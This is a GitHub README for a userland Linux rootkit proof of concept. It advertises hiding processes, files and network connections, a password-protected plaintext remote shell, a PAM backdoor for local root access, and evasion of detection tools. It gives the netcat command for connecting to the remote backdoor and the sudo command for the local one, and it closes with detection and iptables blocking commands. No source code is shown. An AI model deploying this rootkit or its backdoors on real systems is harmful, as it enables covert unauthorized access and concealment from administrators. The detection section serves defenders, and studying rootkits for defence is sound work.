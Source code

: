 # Linux Rootkit POC

This rootkit runs in userland and manipulates system calls and critical functions to hide its presence and provide backdoors for unauthorized access.

**Why**? For fun...

**Disclaimer**

The author is in no way responsible for any illegal use of this software. It is provided as an educational proof of concept (poc) only. He is also not responsible for any damages or mishaps that may occur while using this software. Use it at your own risk.

This poc is based on: [azazel](https://github.com/chokepoint/azazel)

## Features

- Hides processes, files, directories and network connections
- Open remote terminal (plaintext) with password
- Add PAM backdoor for local root access
- Avoids unhide and local sniffing
- Exit on debug

## Access remote backdoor

```sh
nc <BACKDOOR-IP> <BACKDOOR-PORT>
```
*enter the password!*

## Access local backdoor

```sh
sudo -u <USER> -s
```

## Checks

- `sudo ss -antup`

- `sudo nmap -sV -p- -v <IP> --reason`

- `sudo tcpdump <PROTOCOL> port <BACKDOOR-PORT> -A`

- `sudo lsof -u <USER>`
- `sudo lsof -i :<BACKDOOR-PORT>`
- `sudo lsof -i <PROTOCOL>`
- `sudo lsof -p <BACKDOOR-PID>`

- `sudo unhide proc`
- `sudo unhide sys`

- `sudo ps aux | grep shellserver`

- `sudo cat /proc/net/tcp`
- `sudo cat /proc/net/tc6`

- `sudo w`

- `sudo last`

## Block remote backdoor

- `sudo iptables -A INPUT -p tcp --dport <BACKDOOR-PORT> -j DROP`

## Unblock remote backdoor

- `sudo iptables -L -v -n --line-numbers`
- `sudo iptables -D INPUT <NUM>`

